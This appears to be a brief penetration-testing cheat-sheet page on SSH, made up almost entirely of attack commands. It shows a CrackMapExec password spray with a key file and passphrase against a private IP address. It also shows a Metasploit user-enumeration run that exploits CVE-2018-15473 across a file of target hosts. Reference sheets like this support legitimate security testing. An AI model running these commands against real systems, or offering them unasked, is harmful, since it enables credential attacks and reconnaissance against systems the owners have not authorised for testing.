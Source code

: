 ```yaml
---
description: Secure Shell
---
```


# SSH

Password spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u snovvcrash -p 'Passw0rd!' --key-file id_rsa
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
